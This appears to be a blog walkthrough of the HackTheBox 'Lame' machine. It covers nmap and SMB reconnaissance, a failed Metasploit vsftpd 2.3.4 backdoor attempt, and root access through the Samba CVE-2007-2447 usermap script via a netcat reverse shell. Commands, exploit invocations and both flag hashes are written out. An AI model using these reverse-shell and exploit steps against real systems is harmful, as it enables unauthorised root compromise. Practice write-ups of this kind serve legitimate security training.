 ```yaml
---
title: HTB - Lame
date: 2020-08-25 23:14:10 +/- 0000
categories: [HackTheBox , Easy]
tags: [lame]
image: /assets/img/Icons/lame.png
header:
  teaser: /assets/images/Icons/lame.png
---
```


<center> <h1>HackTheBox - Lame Walkthrough</h1> </center>

**Currently working through this box.**

***Machine IP = 10.10.10.3***

---

## RECON AND INFORMATION GATHERING
### Nmap

<pre>
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-19 16:41 BST
Nmap scan report for 10.10.10.3
Host is up (0.053s latency).
Not shown: 996 filtered ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.13
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
|_smb-security-mode: ERROR: Script execution failed (use -d to debug)
|_smb2-time: Protocol negotiation failed (SMB2)
</pre>

From our scan we can see FTP is open on 21, as well as ssh being open on port 22. Furthermore, we have SMB open on 139 & 445.

---

### FTP
#### Anonymous Login

FTP anonymous login is enabled, however when checking the directory is is empty.

#### Exploits

After some googling, it turns out vsftpd 2.3.4 is commonly backdoored, and so i decided to see if there are any FTP exploits associated with vsftpd 2.3.4 using searchsploit

<pre>
root@kali:~/Desktop# searchsploit vsftpd 2.3.4
----------------------------------------- ----------------------------------------
 Exploit Title                           |  Path
                                         | (/usr/share/exploitdb/)
----------------------------------------- ----------------------------------------
vsftpd 2.3.4 - Backdoor Command Executio | exploits/unix/remote/17491.rb
----------------------------------------- ----------------------------------------
Shellcodes: No Result
</pre>

Looks promising, so will come back to it after.

---

### SMB
#### Anonymous Login

SMBmap shows the /tmp directory is accessible without credentials. 

<pre>
root@kali:~/Desktop# smbmap -H 10.10.10.3
[+] Finding open SMB ports....
[+] User SMB session established on 10.10.10.3...
[+] IP: 10.10.10.3:445	Name: 10.10.10.3                                        
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	tmp                                               	READ, WRITE	oh noes!
	opt                                               	NO ACCESS	
	IPC$                                              	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$                                            	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
root@kali:~/Desktop# 
</pre>

At first i was unable to connect using smbclient, but after some googling i added `client min protocol=NT1` to `/etc/samba/smb.conf`

However the directory did not yield anything interesting. 

---

#### Exploits

Moving on i decided to search for Samba 3 in searchsploit

<pre>root@kali:~/Desktop# searchsploit Samba 3.0
-------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                        |  Path
                                                                                      | (/usr/share/exploitdb/)
-------------------------------------------------------------------------------------- ----------------------------------------
Samba 3.0.10 (OSX) - 'lsa_io_trans_names' Heap Overflow (Metasploit)                  | exploits/osx/remote/16875.rb
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                                | exploits/multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)      | exploits/unix/remote/16320.rb
Samba 3.0.21 < 3.0.24 - LSA trans names Heap Overflow (Metasploit)                    | exploits/linux/remote/9950.rb
Samba 3.0.24 (Linux) - 'lsa_io_trans_names' Heap Overflow (Metasploit)                | exploits/linux/remote/16859.rb
Samba 3.0.24 (Solaris) - 'lsa_io_trans_names' Heap Overflow (Metasploit)              | exploits/solaris/remote/16329.rb
Samba 3.0.27a - 'send_mailslot()' Remote Buffer Overflow                              | exploits/linux/dos/4732.c
Samba 3.0.29 (Client) - 'receive_smb_raw()' Buffer Overflow (PoC)                     | exploits/multiple/dos/5712.pl
Samba 3.0.4 - SWAT Authorisation Buffer Overflow                                      | exploits/linux/remote/364.pl
Samba < 3.0.20 - Remote Heap Overflow                                                 | exploits/linux/remote/7701.txt
-------------------------------------------------------------------------------------- ----------------------------------------
</pre>

A wide range of exploits are available, with command execution available from `Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)`

---

## Exploits
### Exploiting VSFTPD

I started by searching msfconsole for any exploits associated with vsftpd.

<pre>
msf5 > search vsftpd 2.3.4

Matching Modules
================

   #  Name                                                      Disclosure Date  Rank       Check  Description
   -  ----                                                      ---------------  ----       -----  -----------
   0  auxiliary/gather/teamtalk_creds                                            normal     No     TeamTalk Gather Credentials
   1  exploit/multi/http/oscommerce_installer_unauth_code_exec  2018-04-30       excellent  Yes    osCommerce Installer Unauthenticated Code Execution
   2  exploit/multi/http/struts2_namespace_ognl                 2018-08-22       excellent  Yes    Apache Struts 2 Namespace Redirect OGNL Injection
   3  exploit/unix/ftp/vsftpd_234_backdoor                      2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution
</pre>

`exploit/unix/ftp/vsftpd_234_backdoor` looks interesting, but sadly was unsuccessful.

<pre>
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > 
</pre>

After looking into this exploit a little more, the exploit can be triggered by attempting to login using a username with an `:)` appeneded to the end of it, such as anonymous:)

---

### Exploiting Samba

When googling Samba 3 Username remote code execution, CVE-2007-2447 comes up. Further googling provided a python script `https://github.com/amriunix/CVE-2007-2447`

Using the script, following the installation instructions allowed for an easy shell.

`nc -nvlp 443`

and then executing python script

<pre>
root@kali:~/Desktop/CVE-2007-2447# python usermap_script.py 10.10.10.3 139 10.10.14.22 443
[*] CVE-2007-2447 - Samba usermap script
[+] Connecting !
[+] Payload was sent - check netcat !
root@kali:~/Desktop/CVE-2007-2447# 
</pre>

On the netcat listener we are now connected as root.

<pre>
root@kali:~/Desktop/CVE-2007-2447# nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.22] from (UNKNOWN) [10.10.10.3] 59119
id
uid=0(root) gid=0(root)
</pre>

Now we spawn a nicer python shell, and start searching for the flags.

`python -c 'import pty; pty.spawn("bash")'`

---

### Flag Hunting
The flags were actually rather easy to find.
#### User.txt
<pre>
root@lame:/home/makis# cat user.txt
cat user.txt
69454a937d94f5f0225ea00acd2e84c5
</pre>

#### Root.txt
<pre>
root@lame:/root# cat root.txt
cat root.txt
92caac3be140ef409e45721348a4e9df
</pre>

---

## Understanding the Python Script


